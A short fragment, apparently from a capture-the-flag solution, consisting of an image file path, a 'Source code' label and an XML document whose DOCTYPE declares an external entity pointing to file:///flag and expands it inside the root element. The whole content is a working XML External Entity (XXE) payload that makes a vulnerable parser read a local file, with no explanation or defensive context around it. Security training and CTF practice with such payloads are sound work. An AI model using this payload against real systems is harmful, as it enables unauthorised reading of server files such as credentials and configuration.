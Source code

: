 <?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root [

    <!ENTITY xxe SYSTEM "file:///flag">
    
]>

<root>&xxe;</root>
